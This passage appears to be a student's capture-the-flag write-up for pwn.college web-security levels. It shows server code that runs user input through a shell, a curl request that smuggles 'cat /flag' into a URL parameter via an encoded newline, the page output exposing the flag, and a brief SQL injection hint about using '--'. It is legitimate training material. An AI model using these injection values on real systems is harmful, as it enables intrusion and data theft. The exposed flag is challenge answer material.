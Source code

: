             print(f"DEBUG: {command=}")
            result = subprocess.run(
                command,  # the command to run
                shell=True,  # use the shell to run this command
                stdout=subprocess.PIPE,  # capture the standard output
                stderr=subprocess.STDOUT,  # 2>&1
                encoding="latin",  # capture the resulting output as text
            ).stdout
            ...

            hacker@web-security~cmcurl http://challenge.localhost:80/goal?subdirectory=flag%0Acat%20%2Fflag

                    <html><body>
                    Welcome to the dirlister service! Please choose a directory to list the files of:
                    <form action="/goal"><input type=text name=subdirectory><input type=submit value=Submit></form>
                    <hr>
                    <b>Output of ls -l flag
            cat /flag:</b><br>
                    <pre>ls: cannot access 'flag': No such file or directory
            pwn.college{Yf_FhrKOaXdQizViyQwmFE6heEY.QX0cTN2wiNxQjMyEzW}
            </pre>
                    </body></html>
                    hacker@web-security~cmdi-6:~$ 


9.  SQLi 2

    The previous level's SQL injection was quite simple to pull off and still have a valid SQL query. This was, in part, because your injection happened at the very end of the query. In this level, however, your injection happens partway through, and there is (a bit) more of the SQL query afterwards. This complicates matters, because the query must remain valid despite your injection.

    - my solution:

      - see image.
      - use `--` to comment out trailing characters to avoid error
![alt text](image.png)
